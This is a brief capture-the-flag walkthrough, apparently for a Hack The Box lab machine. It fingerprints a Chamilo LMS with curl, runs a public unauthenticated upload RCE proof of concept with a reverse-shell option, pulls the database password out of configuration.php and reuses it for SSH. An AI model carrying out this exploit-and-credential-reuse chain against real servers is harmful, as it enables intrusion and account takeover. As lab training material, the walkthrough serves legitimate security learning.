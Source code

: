 Webiste is using Chamilo 1

```bash
❯ curl -I http://lms.permx.htb/
HTTP/1.1 200 OK
Date: Sat, 27 Jul 2024 08:49:01 GMT
Server: Apache/2.4.52 (Ubuntu)
Set-Cookie: ch_sid=f7vmgmjnsq9qi6tof8moef3lnr; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-Powered-By: Chamilo 1
Set-Cookie: GotoCourse=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; HttpOnly
Content-Type: text/html; charset=UTF-8
```

### USER SHELL

use this exploit

https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc

---

use

```bash
╰─❯ python3 main.py -u http://lms.permx.htb/ -a revshell
```


<img width="1440" alt="revshell" src="https://github.com/user-attachments/assets/8caec1b5-a67c-4aa8-ba72-26600e471b26">

---

found passwd in /var/www/chamilo/app/config/configuration.php file

<img width="981" alt="password" src="https://github.com/user-attachments/assets/4b60c807-44c5-420c-8dc7-9841cd078607">

```bash
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

<img width="982" alt="usr mtz" src="https://github.com/user-attachments/assets/30433eed-978c-4aa1-acf7-6ae7b7bb15cd">

Now use ssh to login.

user:mtz
passwd:03F6lY3uXAP2bkW8
---
